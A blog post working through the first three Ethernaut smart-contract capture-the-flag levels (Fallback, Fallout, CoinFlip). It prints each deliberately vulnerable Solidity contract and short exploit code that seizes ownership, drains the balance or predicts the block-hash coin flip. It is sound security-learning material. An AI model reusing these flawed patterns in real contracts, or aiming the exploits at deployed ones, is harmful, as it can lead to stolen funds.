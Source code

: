 ##########################
Let's play some Ethernauts
##########################
:slug: lets-play-some-ethernauts
:date: 2023-07-11
:summary: let's get back into this 'smart contract development' thing
:tags: programming
:author: capu
:featured_image:

Context
=======
`Ethernaut <https://ethernaut.openzeppelin.com/>`_ is a capture the flag smart contract security
game inspired by `overthewire wargames <https://overthewire.org/wargames/>`_ (which are a lot of fun
as well).

It's been a long time since I got any real amount of work done on smart contracts, and I want to get
back into it. Perhaps even focus more on security & auditing this time around.

Plus, I'm in my *year of resourcefulness* so I want to have my skills & scripts ready in case I need
them.

Plumbing
========
After going down a very uninteresting rabbit hole of trying to replicate the exact same environment
locally that's available on the sepolia network, so I can have solutions that work against the
canonical Ethernaut contracts and also run offline, I decided to just fork off from `some anon's work <https://github.com/puffdood/ethernaut_foundry>`_ and `off I went <https://github.com/juanpcapurro/ethernaut-foundry>`_

The repo just runs the contracts in some Foundry tests. It's not clean by any means, but for once I
want to get to work on the interest stuff instead of spending an entire day sweeping the floor. So
let's get to it:

1: Fallback
===========

code
----

.. code::

    pragma solidity ^0.8.13;
    contract Fallback {
        mapping(address => uint256) public contributions;
        address payable public owner;

        constructor() {
            owner = payable(msg.sender);
            contributions[msg.sender] = 1000 * (1 ether);
        }

        modifier onlyOwner() {
            require(msg.sender == owner, "caller is not the owner");
            _;
        }

        function contribute() public payable {
            require(msg.value < 0.001 ether);
            contributions[msg.sender] += msg.value;
            if (contributions[msg.sender] > contributions[owner]) {
                owner = payable(msg.sender);
            }
        }

        function getContribution() public view returns (uint256) {
            return contributions[msg.sender];
        }

        function withdraw() public onlyOwner {
            owner.transfer(address(this).balance);
        }

        receive() external payable {
            require(msg.value > 0 && contributions[msg.sender] > 0);
            owner = payable(msg.sender);
        }
    }

solution
--------

At first it looks simple enough, but there's a small caveat: the fallback function writes to
storage, so the 2300 gas ``transfer`` forwards are not enough, and you have to use an explicit
``call``

.. code::

    target.contribute{value: 100 wei}();
    payable(target).call{value: 100 wei, gas: 30000}(bytes(""));
    target.withdraw();

Fallout
=======

Code
----
.. code::

    contract Fallout {
        mapping(address => uint256) public allocations;
        address payable public owner;

        /* constructor */
        function Fal1out() public payable {
            owner = payable(msg.sender);
            allocations[owner] = msg.value;
        }

        modifier onlyOwner() {
            require(msg.sender == owner, "caller is not the owner");
            _;
        }

        function allocate() public payable {
            allocations[msg.sender] += msg.value;
        }

        function sendAllocation(address payable allocator) public {
            require(allocations[allocator] > 0);
            allocator.transfer(allocations[allocator]);
        }

        function collectAllocations() public onlyOwner {
            payable(msg.sender).transfer(address(this).balance);
        }

        function allocatorBalance(address allocator) public view returns (uint256) {
            return allocations[allocator];
        }
    }

Solution
--------
This one was harder before solidity 0.5. Back then, the constructor was defined as a function with
the same name as the contract. It was entirely possible to rename the contract but forget to rename
the constructor, and then you had a function open to the world where some important initialization
probably happened.

.. code::

    target.Fal1out();
    target.collectAllocations();


CoinFlip
========

Code
----
.. code::

    contract CoinFlip {
        uint256 public consecutiveWins;
        uint256 public lastHash;
        uint256 public FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor() {
            consecutiveWins = 0;
        }

        function flip(bool _guess) public returns (bool) {
            uint256 blockValue = uint256(blockhash(block.number - 1));

            if (lastHash == blockValue) {
                revert();
            }

            lastHash = blockValue;
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;

            if (side == _guess) {
                consecutiveWins++;
                return true;
            } else {
                consecutiveWins = 0;
                return false;
            }
        }
    }

Solution
--------
This one is probably harder from the web interface, since the 'hack' is to pre-compute the same
logic the contract executes in order to predict the result, and it's easiest to do so from a smart
contract.

This being a foundry test and all, I had to use the cheatcodes to make the block number advance:

.. code::

    function predictFlip() private view returns (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        return coinFlip == 1;
    }

    function solution(CoinFlip target) internal virtual {
        for (uint i = 0 ; i < 10 ; i++){
            target.flip(predictFlip());
            vm.roll(block.number+1);
        }
    }

This was fun. I should have a few more done by next week.
